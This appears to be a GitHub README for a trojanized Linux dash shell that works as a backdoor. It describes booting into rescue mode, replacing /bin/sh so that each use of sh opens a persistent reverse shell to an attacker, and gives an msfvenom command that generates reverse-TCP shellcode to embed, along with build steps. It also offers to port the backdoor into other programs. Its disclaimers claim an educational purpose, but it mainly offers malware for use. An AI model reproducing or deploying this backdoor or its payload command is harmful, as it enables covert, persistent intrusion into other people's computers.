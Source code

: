 # Dash shell Linux Trojan Backdoor (Undetectable Mar 29, 2023)

The purpose of this is to demonstrate what security risks there are when someone gains physical access to your computer. 

# WARNING
THIS CODE IS MALWARE!!! IT IS A LINUX TROJAN BACKDOOR! IT WILL OPEN A BACKDOOR INTO YOUR COMPUTER SYSTEM AND WILL ALLOW UNAUTHORIZED ACCESS TO IT. EXERCISE EXTREME CAUTION AND USE SECURITY BEST PRACTICES FOR EDUCATION USE. 

# Possible attack
An attack might look like this: Enter rescue mode and pop a root shell without a password. Replace the /bin/sh binary with this rootkit. The users probably won't know. The shell will still be 100% functional. 
Use this for persistence so the next time an authorized user accesses their account (with the 'sh' shell), you will receive a reverse shell that persists (in a new process) even after the terminal is closed.

The modified code is well documented. 
Change the shellcode in the `pskexec_dash()` function.
You can use a command like `msfvenom -p linux/x64/shell_reverse_tcp PrependFork=true LHOST=0.0.0.0 LPORT=3443 -f raw > shellcode.bin.tmp; xxd -i shellcode.bin.tmp > shellcode-addme.c; rm shellcode.bin.tmp` to generate a replacement. Make sure to change the IP address and port number in the above command to your server.

If you find this code useful, please leave a star ⭐.

# Build
Run the following commands.
```sh
./autogen.sh
./configure
make

# Optional
strip ./src/dash

# DO NOT RUN `make install` OR THE MALWARE WILL INSTALL ON YOUR COMPUTER!!!
```
The binary is located in `./src/dash`.


# Disclaimer
This project was developed for security research, curiosity, ethical hacking, and educational purposes. It was intended to be used responsibly. Do not use this code for anything illegal in your jurisdiction. LICENSE TERMS APPLY.

Hack responsibly.

# Requests
I can port this code to other Linux binaries if anyone finds it useful. This rootkit is easily integrated into any other GNU/Linux C/C++ program.

# LEGAL NOTICE
The creators of the original "Dash" Software and their affiliates do not support or endorse the "dash-shell-rootkit " project. See the COPYING file for the previous "Dash" license.


If you find this code useful, please leave a star ⭐.
